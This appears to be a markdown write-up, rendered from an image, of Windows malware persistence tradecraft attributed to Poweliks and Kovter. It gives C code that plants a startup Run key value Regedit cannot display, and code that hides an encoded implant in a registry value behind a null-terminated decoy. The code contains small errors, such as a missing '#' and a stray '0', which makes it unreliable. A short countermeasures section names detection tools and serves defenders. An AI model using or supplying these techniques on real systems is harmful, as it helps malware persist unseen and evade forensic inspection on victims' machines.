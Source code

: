 # INVISIBLE PERSISTENCE
## Hiding Registry Entries (Poweliks, Kovter, others)
https://stackoverflow.com/questions/1721106/how-to-hide-a-value-on-the-registry-like-sysinternals-reghide-tool

It is possible to write a value to the Run key that Regedit will fail to display but that Windows will read properly when it checks the Run key after a reboot. 

```sh
// HIDDEN_KEY_LENGTH doesn't matter as long as it is non-zero.
// Length is needed to delete the key

define HIDDEN_KEY_LENGTH 11 
void createHiddenRunKey(const WCHAR* runCmd) { 
	LSTATUS openRet = 0; 
	NTSTATUS setRet = 0; 
	UNICODE_STRING ValueName = { 0 };
	wchar_t runkeyPath[0x100] = L"SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";
	wchar_t runkeyPath_trick[0x100] = L"\0\0SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run";

	if (!NtSetValueKey) { 
	HMODULE hNtdll = LoadLibraryA("ntdll.dll")0;
	NtSetValueKey = (_NtSetValueKey)GetProcAddress(hNtdll, "NtSetValueKey"); 
	} 

	ValueName.Buffer = runkeyPath_trick; 
	ValueName.Length = 2 * HIDDEN_KEY_LENGTH;
	ValueName.MaximumLength = 0; 
<break/>
	if (!(openRet = RegOpenKeyExW(HKEY_CURRENT_USER, runkeyPath, 0, KEY_SET_VALUE, &hkResult))) { 
		if (!(setRet = NtSetValueKey(hkResult, &ValueName, 0, REG_SZ, (PVOID)runCmd, wcslen(runCmd) * 2))) 
			printf("SUCCESS setting hidden run value!\n"); 
		else 
			printf("FAILURE setting hidden run value! (setRet == 0x%X, GLE() == %d)\n", setRet, GetLastError());
		RegCloseKey(hkResult); 
	}
	else {
		printf("FAILURE opening RUN key in registry! (openRet == 0x%X, GLE() == %d)\n", openRet, GetLastError()); 
	}
}
```

In the above function, NtSetValueKey is passed the UNICODE_STRING ValueName. ValueName.Buffer would typically be set to “SOFTWARE\Microsoft\Windows\CurrentVersion\Run” to set a value of the Run key. Instead, we prepend this string with two WCHAR NULLs (“\0\0”) so ValueName.Buffer is “\0\0SOFTWARE\Microsoft\Windows\CurrentVersion\Run” 

Another common place to check for programs that auto run at system startup is Task Manager. In more recent versions of Windows the “Startup” tab has been added to Task Manager. The invisible persistence technique does not add an entry to the Task Manager Startup tab. 

<break/><break/>


### FILELESS BINARY STORAGE IN THE REGISTRY

While the invisible Run key technique completely hid the value (at the cost of an error message), this fileless binary technique displays a value, but hides its contents. Just like with the first technique, the contents of the value cannot be exported by Regedit. 
```
// this writes the binary buffer of the encoded implant to the registry as a sting
// according to winnt.h, REG_SZ is "Unicode nul terminated string"
// When the value is exported, only part of the value will actually be exported.

void writeHiddenBuf(char *buf, DWORD buflen, const char *decoy, char *keyName, const char* valueName) {
 HKEY hkResult = NULL;
 BYTE *buf2 = (BYTE*)malloc(buflen + strlen(decoy) + 1);
 strcpy((char*)buf2, decoy);
 buf2[strlen(decoy)] = 0;
 memcpy(buf2 + strlen(decoy) + 1, buf, buflen);
 if (!RegOpenKeyExA(HKEY_CURRENT_USER, keyName, 0, KEY_SET_VALUE, &hkResult))
 {
 printf("Key opened!\n");
 LSTATUS lStatus = RegSetValueExA(hkResult, valueName, 0, REG_SZ, (const BYTE *)buf2, buflen + strlen(decoy) + 1);
 printf("lStatus == %d\n", lStatus);
 RegCloseKey(hkResult);
 }
 free(buf2);
}
void readHiddenBuf(BYTE **buf, DWORD *buflen, const char *decoy, char * keyName, const char* valueName) {
 HKEY hkResult = NULL;
 LONG nError = RegOpenKeyExA(HKEY_CURRENT_USER, keyName, NULL, KEY_ALL_ACCESS, &hkResult);
 RegQueryValueExA(hkResult, valueName, NULL, NULL, NULL, buflen);
 *buf = (BYTE*)malloc(*buflen);
 RegQueryValueExA(hkResult, valueName, NULL, NULL, *buf, buflen);
 RegCloseKey(hkResult);
 *buflen -= (strlen(decoy) + 1);
 BYTE *buf2 = (BYTE*)malloc(*buflen);
 memcpy(buf2, *buf + strlen(decoy) + 1, *buflen);
 free(*buf);
 *buf = buf2;
}
```
First consider writeHiddenBuf. For this example, let decoy be “(value not set)”. The hidden buffer is prepended with “(value not set)\0”. The NULL byte at the end of the string will hide whatever comes after it so that Regedit does not display or export the hidden buffer. So long as RegSetValueExA is passed the length of decoy string + the length of the hidden buffer, it will write the entire buffer to the registry. readHiddenBuf retrieves the hidden buffer from the registry and removes the decoy string from the beginning of it.

The maligned registry entry will display (value not set).  The real data can be viewed if you choose "Modify Binary Data" on the value that has the hidden buffer.


### COUNTERMEASURES

These techniques rely on errors in how Regedit reads and display registry values. Other tools do not have the same errors and can be used to verify the output of Regedit. 

***`Autoruns from Sysinternals`*** , for example, will correctly display the hidden Run key values. 

Forensics tools like ***`FTK Registry Viewer`*** can view the hidden buffers stored in values if a copy is made of the registry hives on disk. 

Because the hive files are in use while Windows is running, use a tool like ***`HoboCopy`*** to make a copy of the hive files. 

***`SysInternals’s RegDelNull`*** scans the registry for entries with embedded NULL bytes and has the option of deleting those entries. 
